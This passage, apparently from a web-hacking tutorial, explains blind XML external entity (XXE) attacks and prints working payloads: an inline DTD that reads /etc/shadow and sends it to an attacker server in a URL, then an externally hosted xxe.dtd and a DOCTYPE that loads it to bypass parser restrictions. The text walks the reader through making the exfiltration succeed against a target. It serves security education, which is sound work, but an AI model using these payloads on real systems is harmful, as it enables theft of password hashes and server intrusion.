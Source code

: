 	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % file SYSTEM "file:///etc/shadow"> 
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>"> 
	%ent;
	%exfiltrate;
	]>
#### This DTD first declares a parameter entity called file that contains the file contents of /etc/shadow 1. Then it declares a parameter entity named ent that contains a dynamic declaration of another parameter entity called exfiltrate 2. &#x25; is the hex-encoded version of the percent sign (%).
#### Depending on your target, hex encoding is sometimes needed for special characters within dynamic declarations. The exfiltrate entity points to the attacker’s server with the contents of /etc/shadow in the URL parameter.
#### Finally, the DTD references ent to declare the exfiltrate entity and then references exfiltrate to trigger the outbound request.

#### But if you try to upload this payload to a target, you might notice that it does not work. This is because, according to XML specifications, parameter entities are treated differently in inline DTDs (DTDs within the XML document specified within the DOCTYPE tag) and external DTDs (a separate DTD hosted elsewhere). Within inline DTDs, parameter entities cannot be referenced within markups, so this line wouldn’t work: `<!ENTITY &#x25; exfiltrate`SYSTEM 'http://attacker_server/?%file;'>, whereas in external DTDs, no such restriction exists.
#### To exfiltrate data via a blind XXE, you have to overcome this restriction by hosting an external DTD on your server. Try hosting a file named xxe.dtd on your server:

	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
	%ent;
	%exfiltrate;
	
#### then make the target parser interpret your DTD by specifying it within a parameter entity and refrencing that entity.

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
	%xxe;
	]>
#### his way, the target server will parse the submitted XML file and notice that a parameter entity is referencing an external file. Then the target server will retrieve and parse that external DTD, so your payload will execute, and the target will send the exfiltrated data back to your server. Here, we are exfiltrating the contents of the file /etc/shadow as a URL parameter in a request to the attacker’s server.

